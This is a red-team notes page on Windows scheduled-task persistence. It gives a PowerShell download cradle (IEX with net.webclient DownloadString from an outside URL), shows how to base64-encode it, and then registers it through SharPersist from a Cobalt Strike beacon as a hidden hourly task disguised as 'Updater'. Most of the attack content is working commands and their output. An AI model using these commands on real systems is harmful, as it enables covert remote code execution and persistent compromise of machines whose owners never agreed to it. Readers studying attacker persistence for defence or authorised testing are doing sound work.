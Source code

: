 # Scheduled Tasks

TODO: Add scheduled task enumeration. schtask commands, privileges (ability to create tasks for current user), possible hijacks, etc.

## Creating Tasks

Windows Task Scheduler allows us to create tasks that execute on a pre-defined trigger. For example they can be:

* Time of day
* User Login
* Computer Idle
* Every n hours, minutes, seconds

### Building Payload

For this example we will base64 encode our PowerShell payload using -enc (-EncodedCommand)

<pre class="language-powershell"><code class="lang-powershell">PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://copperwired.com/a"))'

<strong>PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
</strong></code></pre>

#### Output:

```powershell
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBjAG8AcABwAGUAcgB3AGkAcgBlAGQAL
gBjAG8AbQAvAGEAIgApACkA
```

### Execute Payload - SharPersist & Cobalt Strike

We can use the `execute-shellcode` command from an existing beacon in CobaltStrike to establish persistence. We'll also have to utilize a tool like [SharPersist](https://github.com/mandiant/SharPersist) as there are no built-in persistence tools.&#x20;

```powershell
beacon> execute-assembly C:\Tools\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc 
SQBFAFgAIAAo...ACgAbgBlAHcALQBvAGkA" -n "Updater" -m add -o hourly

[08/23 05:51:03] [+] received output:

[+] SUCCESS: Scheduled task added 
```

* `-t` is the desired persistence technique.
* `-c` is the command to execute.
* `-a` are any arguments for that command.
* `-n` is the name of the task.
* `-m` is to add the task (you can also `remove`, `check` and `list`).
* `-o` is the task frequency.

### Confirm

We can confirm we successfully created a scheduled task by opening the Task Scheduler.

<figure><img src="../../.gitbook/assets/Screenshot 2024-07-31 at 2.09.43 AM.png" alt=""><figcaption></figcaption></figure>
